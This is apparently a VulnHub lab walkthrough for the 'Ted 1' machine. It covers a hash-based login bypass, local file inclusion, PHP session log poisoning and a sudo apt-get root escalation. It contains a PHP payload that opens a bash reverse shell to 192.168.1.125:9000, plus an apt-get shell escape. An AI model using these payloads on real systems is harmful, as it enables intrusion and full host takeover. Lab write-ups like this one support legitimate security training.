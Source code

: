 ## Ted 1

https://www.vulnhub.com/entry/ted-1,327/

### www-data

#### User Authentication

We can enumerate user at `authenticate.php` and discover user admin.

If I send admin:admin at login, I get  "Password hash is not correct, make sure to hash it before submit.".

If I send admin in md5, I get "Password or password hash is not correct, make sure to hash it before submit."

If I send admin in sha256, no error is displayed, and we login in. For some reason, the hash needs to be in uppercase.

<br>

#### LFI and Log Poisoning

There is LFI at `search` with `../../../etc/passwd`. Actually, you can just put the absolute path that the file will be read: `/etc/passwd`.

We test some files until reache PHP Session Files at `/var/lib/php/sessions/sess_pd262kbl40c3gbbvstp4er3hv4`.

We see that the cookie is being reflected, so we can log poison it changing `user_pref`.
```
# This doesn't works because the semicolon is ending the cookie
<?php echo system("ls"); ?>

# Since the close tag imples a semicolon, we can't avoid remove it
<?php system("bash -c 'bash -i >& /dev/tcp/192.168.1.125/9000 0>&1'")?>
```

<br>

### Privilege Escalation
```
sudo -l
(root) NOPASSWD: /usr/bin/apt-get

apt-get changelog apt
!/bin/sh
```
